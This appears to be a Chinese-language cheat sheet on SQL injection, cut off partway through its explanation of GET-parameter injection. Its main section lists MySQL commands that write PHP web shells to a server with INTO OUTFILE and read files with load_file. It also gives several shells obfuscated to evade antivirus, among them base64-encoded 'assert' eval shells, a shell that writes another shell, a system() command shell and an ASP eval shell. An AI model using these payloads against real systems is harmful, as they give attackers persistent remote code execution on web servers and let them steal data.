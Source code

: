 ```sql
```







# *SQL注入分类及各个的相关命令



## SQL注入写入一句话木马（及免杀）

```
SHOW VARIABLES LIKE "secure_file_priv"  //查看系统变量secure_file_priv：
Select @@basedir;   //查询数据库路径

<?php phpinfo();?>  //phpinfo界面
select load_file("C:\\text.txt")                       //上传指定文件

select '<?php @eval($_POST["123"]);?>'                //php代码需要注意大小写
INTO OUTFILE "D:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\hm.php";

免杀
一句话木马：'<?php $a = "a"."s"."s"."e"."r"."t";@$a(eval($_POST["123"]));?>'
<?php $string = "assexx";$a = str_replace("xx", "rt", $string);@$a(eval($_POST["123"]));?>
<?php $b = "YXNzZXJ0";$a = base64_decode($b);@$a(eval($_POST["123"]));?>

<?php fputs(fopen('cjc.php','w'),'<?php $b = "YXNzZXJ0";$a = base64_decode($b);@$a(eval($_POST["pass"]));?>');?>	//写马的马(条件竞争)

<?php $a="system";@$a($_REQUEST["pass"]);?>            //小马

<?=`$_GET[1]`;;?>									   //极简马

<%@ Page Language="Jscript"%><%eval(Request.Item["pass"],"unsafe");%>  //JS马
```



## GET注入和POST注入

### GET

> GET注入是指攻击者利用应用程序中使用GET方法传递参数的漏洞来注入恶意的SQL代码。在Web应用程序中，GET请求通过URL传递参数，这些参数通常用于构建动态的查询语句。攻击者可以通过篡改URL参数中的数据，注入恶意的SQL查询，从而干扰数据库操作。

> 示例： 假设有一个URL如下：

```
http://example.com/products?id=1
```

> 攻击者可以通过修改URL参数来尝试注入，比如：
